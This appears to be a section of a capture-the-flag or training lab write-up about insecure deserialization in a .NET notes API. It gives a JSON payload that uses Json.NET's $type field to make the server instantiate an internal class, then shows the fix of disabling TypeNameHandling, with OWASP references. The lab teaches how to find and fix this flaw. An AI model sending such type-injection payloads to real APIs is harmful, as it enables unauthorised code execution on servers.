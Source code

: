 5. Insecure Deserialization
===========================
_Running .NET code using insecure deserialization._

The Fault: Run some basic C# code on server
-------------------------------------------

PATCH /notes/...

```json
{
    "content": "Nå er denne oppdatert",
    "properties": {
        "hack": {
            "$type": "Notes.Api.Admin.Secret, Notes.Api",
            "name": "Teodor"
        }
    }
}
```

References:
* [OWASP: Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)
* [How to configure Json.NET to create a vulnerable web API](https://www.alphabot.com/security/blog/2017/net/How-to-configure-Json.NET-to-create-a-vulnerable-web-API.html)
* [Friday the 13th JSON Attacks](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)

The Fix: Re-configure Json.NET
------------------------------

```csharp
options.SerializerSettings.TypeNameHandling = TypeNameHandling.None;
```

But now deserialization probably don't work as well. Deserializing generics securely is hard.

Maybe do DTO?

The Flag
--------
